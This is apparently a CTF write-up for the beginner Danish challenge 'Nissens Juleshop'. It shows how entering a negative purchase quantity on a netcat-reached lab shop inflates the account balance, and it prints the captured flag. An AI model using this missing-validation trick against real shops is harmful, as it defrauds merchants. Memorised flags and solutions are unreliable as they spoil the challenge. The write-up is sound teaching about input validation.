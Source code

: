 +++
title = 'Nissens Juleshop'
categories = ['Kom godt i gang']
date = 2023-12-01T10:11:50+01:00
+++

## Challenge Name:

Nissens Juleshop

## Category:

Kom godt i gang

## Challenge Description:

Nissen har lige åbnet sin årlige juleshop, har han mon noget spændende at købe?

Forbind til opgaven med nc juleshop.nc3 2674.

Note: Opgaven var tilgængelig via Haaukins under CTFen

## Approach

### Enumeration

This is one of the few "dynamic" introduction challenges, in which we need to connect to a lab in Haaukins and connect to a remote machine.

Upon connecting to the server with the netcat command

```bash
nc juleshop.nc3 2674
```

We are greeted by the following

```bash
Velkommen til Nissens Juleshop!

Du har i øjeblikket 1000 JULESNE på din konto
Hvad vil du købe?
        1) Julelys (85 JULESNE)
        2) Gavepapir (40 JULESNE)
        3) Sneskovl (230 JULESNE)
        4) Juletræ (760 JULESNE)
        5) Flag (1000000 JULESNE)
>
```

Which translated from Danish reads:

```bash
Welcome to Nissens Chistmas Shop!

You currently have 1000 CHRISTMAS-SNOW on your account
What would you like to purchase?
        1) Chistmas candles (85 CHRISTMAS-SNOW)
        2) Gift wrapping paper (40 CHRISTMAS-SNOW)
        3) Snow shovel (230 CHRISTMAS-SNOW)
        4) Chistmas tree (760 CHRISTMAS-SNOW)
        5) Flag (1000000 CHRISTMAS-SNOW)
>
```

If we choose a product we are asked how many we would like to purchase, after which the price is deducted from the total balance on our account!

If we try to purchase a product we can't afford, we get the following error message:

```bash
> 5
Den går ikke, du har ikke engang råd til 1x Flag
```

Which translated from Danish reads:

```bash
> 5
That won't do, you can't even afford 1x Flag
```

### Exploiting

There is a great old joke about a software tester who walks into a bar, which goes something like

```text
A software tester walks into a bar.

Walks into a bar
Runs into a bar.

Crawls into a bar.

Dances into a bar.

Flies into a bar.

Jumps into a bar.

And orders:

a beer.

2 beers.

0 beers.

99999999 beers.

a lizard in a beer glass.

-1 beer.

"qwertyuiop" beers.

Testing complete.

A real customer walks into the bar and asks where the bathroom is.

The bar goes up in flames.
```

The "moral of the story" is that whenever executing quality assurance on software, it is usually a good idea to provide unexpected input!

When we think about the challenge at hand, let's see what happens if we provide a negative amount!

```bash
Du har i øjeblikket 1000 JULESNE på din konto
Hvad vil du købe?
        1) Julelys (85 JULESNE)
        2) Gavepapir (40 JULESNE)
        3) Sneskovl (230 JULESNE)
        4) Juletræ (760 JULESNE)
        5) Flag (1000000 JULESNE)
> 4

Hvor mange vil du købe?
> -100000

Du har købt -100000 stk. Juletræ for i alt -76000000 JULESNE

Du har i øjeblikket 76001000 JULESNE på din konto
```

Which translated from Danish reads:

```bash
You currently have 1000 CHRISTMAS-SNOW on your account
What would you like to purchase?
        1) Chistmas candles (85 CHRISTMAS-SNOW)
        2) Gift wrapping paper (40 CHRISTMAS-SNOW)
        3) Snow shovel (230 CHRISTMAS-SNOW)
        4) Chistmas tree (760 CHRISTMAS-SNOW)
        5) Flag (1000000 CHRISTMAS-SNOW)
> 4

How many would you like to purchase?
> -100000

You bought -100000 Chistmas tree for a total of -76000000 CHISTMAS-SNOW

Your balance is currently 76001000 CHISTMAS-SNOW
```

Suddenly we have a wealth of "CHISTMAS-SNOW" at our disposal and the flag can easily be purchased!

```bash
> 5
Du har købt flaget for 1000000 JULESNE:
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

Which translated from Danish reads:

```bash
> 5
You bought the flag for a total of 1000000 CHISTMAS-SNOW:
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

## Flag

```text
NC3{hv4d_sk3t3_d3r_4lt_bl3v_uds0lg7_på_10_m1n?!?}
```

## Reflections and Learnings

The "Nissens Juleshop" challenge was a fun and educational exercise in thinking outside the box and testing the boundaries of a system. This challenge reinforced the importance of considering edge cases and unusual inputs when interacting with any system, especially one that processes numerical inputs like an online shop.

One of the key learnings from this challenge was the significance of input validation. The challenge exploited the lack of input validation for negative numbers, allowing for an interesting and unconventional solution. It highlighted a common vulnerability in many systems where developers might not anticipate or properly handle unexpected inputs. This is a crucial aspect in the field of cybersecurity and software development, where robust input validation can prevent many exploits and security issues.

Furthermore, this challenge was a great reminder of the classic principle in hacking and cybersecurity: "Think like an attacker." Approaching the challenge from an attacker's perspective, looking for ways to break the system or use it in unintended ways, led to the discovery of the vulnerability and the successful completion of the challenge. This mindset is invaluable in both offensive and defensive cybersecurity roles.
